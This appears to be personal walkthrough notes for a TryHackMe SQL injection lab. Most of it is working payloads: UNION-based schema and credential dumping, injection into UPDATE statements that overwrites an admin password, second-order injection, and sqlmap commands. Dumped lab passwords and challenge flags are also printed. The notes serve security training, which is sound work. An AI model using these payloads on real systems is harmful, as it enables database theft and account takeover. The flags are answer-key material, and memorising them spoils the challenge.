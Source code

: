 #### search bar

search for true item

search for wildcards

construct query

select ? from ? where ? like '%hammer%';

get db type

select ? from ? where ? like '%';-- %';

select ? from ? where ? like '%hammer' AND 1 = sleep(2);-- %';

select ?,?,? from ? where ? like '%hammer' union (select 1,2,3 from dual);-- %';

select ?,?,? from ? where ? like '%hammer' union (select TABLE_NAME, TABLE_SCHEMA, 3 FROM infromation_schema.tables);--

select ?,?,? from ? where ? like '%hammer' union (select column_name,2,3 from information_schema.columns where table_name = 'users');--

select ?,?,? from ? where ? like '%hammer' union (select uLogin, uHash, uType from users);--




Update statement


UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>


# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='



',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='




We can then continue by extract all the column names from the usertable:

',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='




The subquery is using the group_concat() function to dump all the information simultaneously, and the || operator is "concatenate" - it joins together the strings of its operands (sqlite.org).

',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='



We can then update the password for the Admin user with the following code:

', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -


sqlmap -u http://10.10.230.205:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump



Vulnerable notes

create a user with the query

' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''

'  union select 1,group_concat(password) from users'

sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username --dbms=sqlite --technique=U --no-cast -T users --dump


THM{4644c7e157fd5498e7e4026c89650814}





Change Password

create new user admin' -- -:a

login, then change password :b

logout and log back in with admin:b

done,

THM{cd5c4f197d708fda06979f13d8081013}






book title


SELECT * from books WHERE id = (SELECT id FROM books WHERE title like 'harr%')

') union select 1,2,3,4 from sqlite_master-- -


') union select 1,sqlite_version,3,4 from sqlite_master-- -

3.22.0


SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

') SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -   didn't work


') union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books
3
Author: 4
Title: notes
3
Author: 4
Title: users
3
Author: 4


') UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -  DIDNT WORK


') union select 1,sql,3,4 from users-- -

sqlite3_column_name()

') union select 1,sqlite3_column_name(),3,4 from users-- -


tbl_name column


', title=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')-- - 




') union select 1,sql,3,4 from sqlite_master where name ='users'-- -


Title: CREATE TABLE users ( id integer primary key, username text unique not null, password text not null )
3
Author: 4


') union select 1,username,password,4 from users-- -


Title: admin

THM{27f8f7ce3c05ca8d6553bc5948a89210}

Author: 4
Title: amanda

Summer2019!

Author: 4
Title: dev

asd

Author: 4
Title: emil

viking123

Author: 4
Title: maja

345m3io4hj3

Author: 4
Title: student

password

Author: 4




Book 2


Query 1:
SELECT id FROM books WHERE title like '' union select sqlite_version()-- -%'
Query 2:
SELECT * FROM books WHERE id = '3.22.0'


'union select tbl_name from sqlite_master-- -

shows the table books

'union select tbl_name,tbl_name from sqlite_master-- -	 nothing


' union select sql from sqlite_master where name ='books'-- -

Query 1:
SELECT id FROM books WHERE title like '' union select sql from sqlite_master where name ='books'-- -%'
Query 2:
SELECT * FROM books WHERE id = 'CREATE TABLE books (
    id integer primary key,
    title text not null,
    description text not null,
    author text not null
)'

' union select 1,2,3,4 from books-- - nothing

' union select 1,tbl_name from sqlite_master-- -

' union select '-1''union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books

3

Author: 4
Title: notes

3

Author: 4
Title: users

3

Author: 4



' union select '-1''

' union select '-1'' union select 1,sql,3,4 from sqlite_master where name = 'users'-- -

') union select 1,sql,3,4 from sqlite_master where name ='users'-- -



' union select '-1'' union select 1,username,password,4 from users-- -
